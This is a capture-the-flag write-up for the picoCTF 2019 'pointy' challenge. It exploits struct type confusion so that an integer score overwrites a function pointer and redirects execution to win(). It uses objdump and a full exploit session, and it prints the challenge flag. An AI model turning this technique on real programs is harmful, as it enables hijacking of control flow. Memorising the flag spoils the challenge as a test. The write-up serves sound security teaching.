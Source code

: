 ## pointy

### Problem
> Exploit the function pointers in this [program](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln). It is also found in /problems/pointy_0_4da9845cb7c41585de522db47f569424 on the shell server. [Source](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln.c).  
  
Note the one function pointer in vuln.c's struct Student: `void (*scoreProfessor)(struct Professor*, int)` and that scoreProfessor is called on line 93.  

To get the program to call `win()`, we need to somehow assign win's address to scoreProfessor. Access to scoreProfessor via a student is already blocked by `student->scoreProfessor=&giveScoreToProfessor`.  However:    
1. lastscore and scoreProfessor have the same offset from the respective struct's address.  
2. The student and professor variables in `main` are cast from the return values of retrieveStudent and retrieveProfessor, which are identical.  

This means we could give win's address as a professor's score. Then, cast the professor into a student, which effectively casts Professor's `int lastscore` to Student's `void (*scoreProfessor)(struct Professor*, int)` ie. casts the professor's score to a pointer to win(). Thus the next time student->scoreProfessor is called, win would be executed.  

### Solution: objdump
First `objdump -D vuln | grep win` to disassemble all sections of vuln to get addresses, and pipe that ouput to grep to get only the win function section. You will 08048696 is the address in hex, which converts to 134514326 as int / unsigned int.  
```
@pico-2019-shell1:/problems/pointy_0_4da9845cb7c41585de522db47f569424$ ./vuln
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score   
s0  
Input the name of the professor that will be scored  
s0  
s0  
Input the score:  
134514326  
Score Given: 134514326   
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score  
s0
Input the name of the professor that will be scored 
s0  
s0  
Input the score:  
0  
```
**Flag: picoCTF{g1v1ng_d1R3Ct10n5_d9be6a30}**
